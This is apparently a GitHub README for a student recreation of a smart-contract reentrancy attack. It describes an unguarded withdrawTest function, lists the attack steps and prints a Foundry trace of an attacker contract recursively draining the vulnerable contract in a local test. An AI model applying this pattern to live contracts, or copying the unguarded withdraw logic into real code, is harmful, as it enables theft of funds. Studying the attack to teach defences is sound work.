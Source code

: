 # renetry_recreation
The hack demonstrated here exploits a reentrancy vulnerability in the vulnerability contract. It was chosen to be my hack because Re-entry attacks highlight the importance of secure coding practices, including implementing reentrancy guards, avoiding external calls in critical functions, and updating contract states before performing any interactions with external parties, it is a well-known attack vector that has historically resulted in significant financial losses in smart contracts.

The withdrawTest function in the VulnerableContract transfers funds to the caller (msg.sender) using call.  However, it fails at updating its balance before sending, this allows the attacker to repeatedly call back into the contract and withdraw funds in a loop, draining its balance. This vulnerability was explicitly left unguarded in the withdrawTest function for testing purposes to recreate the exploit scenario.

how to create work
  1.deploys attack and vulnerability contract
  
  2.attacker deposits a small amount of Ether
  
  3.then the attack function,which calls withdrawTest to withdraw deposited funds
  
  4. The receive fallback function in the attacker contract is then triggered, allowing it to recursively call withdrawTest again before the vulnerable contract updates its balance.
     
  5.This recursive process continues until the gas limit is reached or the contract’s balance is fully drained

  6.the test simulates the real-world conditions of a reentrancy attack, demonstrating the exploit in action

output:
Traces:
  [134814] ReentrancyTest::testReentrancyAttack()
    ├─ [0] console::log("Starting the attack...") [staticcall]
    │   └─ ← [Stop]
    ├─ [0] VM::startPrank(Attackers: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   └─ ← [Return]
    ├─ [111544] Attackers::attack{value: 1000000000000000000}()
    │   ├─ [5260] VulnerableContract::deposit{value: 1000000000000000000}()
    │   │   └─ ← [Stop]
    │   ├─ [94025] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   ├─ [86457] Attackers::receive{value: 1000000000000000000}()
    │   │   │   ├─ [85689] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   ├─ [78121] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [77353] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   ├─ [69785] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   ├─ [69017] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   ├─ [61449] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [60681] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   │   │   ├─ [53113] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [52345] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [44777] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [44009] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [36441] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [35673] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [28105] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [27337] VulnerableContract::withdrawTest(1000000000000000000 [1e18])      
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [19769] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [19001] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [8633] Attackers::receive{value: 1000000000000000000}()       
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [7865] VulnerableContract::withdrawTest(1000000000000000000 [1e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [297] Attackers::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   └─ ← [Stop]
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [0] console::log("Attacker's balance after the attack: %s ether", 11000000000000000000 [1.1e19]) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] console::log("Vulnerable contract's balance after the attack: %s ether", 0) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] VM::assertEq(11000000000000000000 [1.1e19], 11000000000000000000 [1.1e19]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 31.67ms (27.50ms CPU time)

Ran 1 test suite in 44.10ms (31.67ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
